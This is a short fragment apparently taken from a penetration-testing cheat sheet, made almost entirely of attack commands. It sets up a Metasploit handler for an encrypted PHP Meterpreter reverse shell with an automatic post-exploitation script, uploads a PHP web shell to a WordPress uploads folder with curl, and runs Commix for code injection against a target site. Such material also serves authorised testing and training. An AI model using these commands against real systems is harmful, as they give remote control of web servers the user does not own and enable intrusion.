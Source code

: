 ```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD php/meterpreter/reverse_tcp;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

_Upload Shell PUT Method_

```bash
curl -v $WEBSITE/wp-content/uploads --upload-file /tmp/unk9vvn.php
```

### **Logging**

#### Commix

_Code Injection_

```bash
commix -u $WEBSITE
```
